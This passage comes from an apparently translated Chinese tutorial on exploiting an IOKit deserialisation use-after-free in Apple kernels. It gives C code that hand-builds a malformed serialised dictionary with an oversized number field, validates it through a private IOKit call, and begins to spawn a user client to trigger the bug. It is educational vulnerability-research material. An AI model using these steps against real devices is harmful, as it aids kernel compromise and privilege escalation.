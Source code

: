 #### 制作字典

我们将要使用 enum 中描述的那些来创建二进制序列化数据，一种较为简单的方式是分配内存，然后使用指针向其中写入掩码值。

<table><tbody><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div><div class="line">4</div></pre></td><td class="code"><pre><div class="line"><span class="keyword">void</span> *dict = <span class="built_in">calloc</span>(<span class="number">1</span>, <span class="number">512</span>);</div><div class="line"><span class="keyword">uint32_t</span> idx = <span class="number">0</span>; <span class="comment">// index into our data</span></div><div class="line"></div><div class="line"><span class="meta">#<span class="meta-keyword">define</span> WRITE_IN(dict, data) do { *(uint32_t *)(dict + idx) = (data); idx += 4; } while (0)</span></div></pre></td></tr></tbody></table>

我们的宏是非常有用的，因为它使我们可以向已分配的内存中写入数据，并且使索引在每次使用后更新。

所以，使用我们之前讲过的知识，现在让我们用 XML 写下字典吧：

```c
<dict>
	<symbol>AAA</symbol>
	<number size=0x200>0x4141414141414141</number>
</dict>
```

转换为二进制：

```c
WRITE_IN(dict, (0x000000d3)); // signature, always at the beginning
WRITE_IN(dict, (kOSSerializeEndCollection | kOSSerializeDictionary | 2)); // dictionary with two entries
WRITE_IN(dict, (kOSSerializeSymbol | 4)); // key with symbol, 3 chars + NUL byte
WRITE_IN(dict, (0x00414141)); // 'AAA' key + NUL byte in little-endian
WRITE_IN(dict, (kOSSerializeEndCollection | kOSSerializeNumber | 0x200)); // value with big-size number
WRITE_IN(dict, (0x41414141)); WRITE_IN(dict, (0x41414141)); // at least 8 bytes for our big number
```

在不创建用户客户端的情况下测试我们的字典是否有效，我们可以使用 io\_service\_get\_matching\_services\_bin 私有函数（同样是在 `IOKit/iokitmig.h` 头文件中），之后在触发 UAF 漏洞中也会使用到。

<table><tbody><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div><div class="line">4</div><div class="line">5</div><div class="line">6</div><div class="line">7</div></pre></td><td class="code"><pre><div class="line">host_get_io_master(mach_host_self(), &amp;master); <span class="comment">// get iokit master port</span></div><div class="line"></div><div class="line">kr = io_service_get_matching_services_bin(master, (<span class="keyword">char</span> *)dict, idx, &amp;res);</div><div class="line"><span class="keyword">if</span> (kr == KERN_SUCCESS) {</div><div class="line">    <span class="built_in">printf</span>(<span class="string">"(+) Dictionary is valid! Spawning user client...\n"</span>);</div><div class="line">} <span class="keyword">else</span></div><div class="line">    <span class="keyword">return</span> <span class="number">-1</span>;</div></pre></td></tr></tbody></table>

如果返回值等于0，那么我们创建的字典将会被正确解析，当然也就有效。现在我们已经确定的字典的有效性，那么我们可以通过它来设置属性了，继续来创建用户客户端。

#### 产生用户客户端

就像之前提到的那样，我们将要通过在 service 中调用 io\_service\_open\_extended 来产生用户客户端。使用什么服务并不重要，只要它能提供客户端。在这个例子中，我们通过打开 IOHDIXController（被用来存储磁盘数据）服务，来产生 IOHDIXControllerUserClient 对象，所以我们的代码是这样的。
